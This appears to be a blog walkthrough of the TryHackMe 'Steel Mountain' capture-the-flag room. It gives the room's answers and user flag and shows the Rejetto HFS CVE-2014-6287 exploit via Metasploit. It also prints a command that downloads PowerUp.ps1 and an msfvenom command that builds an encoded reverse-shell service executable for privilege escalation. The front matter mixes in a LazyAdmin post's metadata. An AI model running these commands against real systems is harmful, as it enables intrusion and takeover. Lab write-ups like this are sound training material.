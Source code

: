 ```yaml
---
title: "Steel Mountain - TryHackMe Walkthrough by Nisha"
layout: single
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
toc_sticky: true
classes: wide
author_profile: true
excerpt: "Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access."
read_time: true
comments: no
share: true
related: true
description: "Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access."
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
tagline: "Steel Mountain - TryHackMe Walkthrough by Nisha"
header:
  teaser: /assets/images/thm/ctf/steelmountain/
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/thm/thm-ice-0.png
  caption: "Photo credit: [**imgur**](https://imgur.com/6Ijftag)"




categories: 
  - Blog
tags: 
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Web Exploits
  - Reverse Shell
  - Enumeration
  - Cybersecurity
  - Linux Privilege Escalation
toc: true
toc_sticky: true
header:
  teaser: /assets/images/thm/ctf/lazyadmin-01.png
  overlay_image: /assets/images/00-hero.jpg
  overlay_filter: 0.3
  caption: "Pwned the LazyAdmin machine on TryHackMe"
---
```


## Overview

This walkthrough demonstrates how I exploited the **LazyAdmin** room on [TryHackMe](https://tryhackme.com/room/steelmountain"). Each section includes detailed explanations of the enumeration, exploitation, and privilege escalation processes. 


## Task 1 - Introduction

Deploy the machine.

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-1.png">

Q: Who is the employee of the month?

A: Bill Harper


<img src="/assets/images/thm/steelmountain/thm-steel-mountain-2.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-3.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-4.png">


## Task 2 - Initial Access

<strong>Q: Scan the machine with nmap. What is the other port running a web server on? </strong> <br>

<em> A: 8080 </em>

<strong>Q: Take a look at the other web server. What file server is running?</strong> <br>
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-6.png">

<em>A: Rejetto HTTP File Server</em>


<strong>Q: What is the CVE number to exploit this file server?</strong> <br>

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-5.png">

<em>A: 2014-6287</em>

<strong>Q: Use Metasploit to get an initial shell. What is the user flag?</strong> <br>

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-7.png">

<img src="/assets/images/thm/steelmountain/steelmountain/thm-steel-mountain-8.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-9.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-10.png">

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-11.png">
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-12.png">

<em>A: b04763b6fcf51fcd7c13abc7db4fd365</em>


## Task 3 - Privilege Escalation

We have an initial shell on this machine as user Bill.  Now, we will further enumerate the machine and escalate our privileges to root to obtain the final flag!

We can use the PowerUp PowerShell script to esclate our privileges.

Download the script using the following command:

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
<img src="/assets/images/thm/steelmountain/thm-steel-mountain-13.png">


We will use the upload command in Metasploit to upload the script. 

To execute this using Meterpreter, we will type load powershell into meterpreter. Then we will enter powershell by entering powershell_shell:

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-14.png">


Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-15.png">

- AdvancedSystemCareService9

Use msfvenom to generate a reverse shell as an Windows executable.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

<img src="/assets/images/thm/steelmountain/thm-steel-mountain-14.png">

## Task 4 - Access and Escalation Without Metasploit 

